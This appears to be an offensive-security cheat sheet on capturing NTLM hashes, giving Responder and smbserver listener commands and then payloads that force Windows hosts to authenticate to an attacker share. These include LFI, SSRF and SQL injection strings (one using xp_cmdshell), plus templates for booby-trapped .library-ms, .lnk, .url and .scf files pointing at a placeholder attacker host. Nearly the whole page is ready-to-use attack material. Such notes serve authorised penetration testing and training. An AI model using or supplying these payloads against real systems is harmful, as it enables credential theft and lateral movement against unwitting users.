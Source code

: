 ```yaml
---
icon: ear
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I <interface>
```

```sh
smbserver.py share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\<attaker>\shared

# SSRF
?url=file:////<attaker>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\<attaker>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\<attaker>\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\<attaker>\shared'),null-- -
```

### Via .library-ms file

```sh
cat > \!shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attacker>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c '\\<attacker>\shared' \!shared.lnk -i '\\<attacker>\shared\icon.ico'
```

### Via .url file

```sh
cat > \!shared.url <<EOF
[InternetShortcut]
URL=\\\\<attacker>\\shared
IconIndex=1
IconFile=\\\\<attacker>\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > \!shared.scf <<EOF
[Shell]
Command=2
IconFile=\\\\<attacker>\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```
